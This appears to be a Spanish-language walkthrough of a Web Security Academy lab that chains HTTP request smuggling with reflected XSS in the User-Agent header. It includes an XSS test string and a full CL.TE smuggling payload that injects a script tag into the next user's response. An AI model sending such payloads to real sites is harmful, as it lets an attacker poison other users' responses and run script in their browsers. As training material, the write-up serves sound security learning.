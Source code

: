 En este laboratorio, combinamos un ataque de HTTP request smuggling con una vulnerabilidad de XSS reflejado que afecta a la cabecera User-Agent. El objetivo es hacer que la siguiente petición de un usuario legítimo reciba una respuesta que incluya nuestra carga maliciosa.

Para lograrlo, manipulamos la longitud de la petición y ocultamos una petición HTTP secundaria con el ‘**User-Agent**‘ alterado. La víctima, al visitar la aplicación, carga sin saberlo una página que ejecuta JavaScript, concretamente ‘**alert(1)**‘, validando la explotación.

Este escenario pone en evidencia cómo la concatenación de vulnerabilidades aparentemente menores puede tener un impacto crítico cuando son encadenadas correctamente.

Solucion
antes de interceptar necesitamos obtener el user agent para ello nos vamos  a la pagina princial Ctrl+Shift+C y nos vamos al apartado de red o network y en la primera y hasta abajo copiamos y bajamos (https://0a5f004004d306dc80b60dd600330012.web-security-academy.net/)
![Pasted_image_20250809203435.png](Imagenes/Pasted_image_20250809203435.png)
entonces este campo vamos a buscar y bueno lo encontramos en un post 
![Pasted_image_20250809203602.png](Imagenes/Pasted_image_20250809203602.png)
entonces aqui podemos ver un tipo de vulnerabilidad que si escapamos las comillas podemos obtener informacion para ello vamos a interceptar la pagina para ver si es vulnerable con este pequeñp script "><script>alert(1)</script>
![Pasted_image_20250809204328.png](Imagenes/Pasted_image_20250809204328.png)
Entonces es vulnerable a xxs reflejado
![Pasted_image_20250809204355.png](Imagenes/Pasted_image_20250809204355.png)

entonces pasamos hacer el payload
 (Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1)
![Pasted_image_20250809204727.png](Imagenes/Pasted_image_20250809204727.png)
le damos a send y recargamos la pagina
![Pasted_image_20250809204808.png](Imagenes/Pasted_image_20250809204808.png)
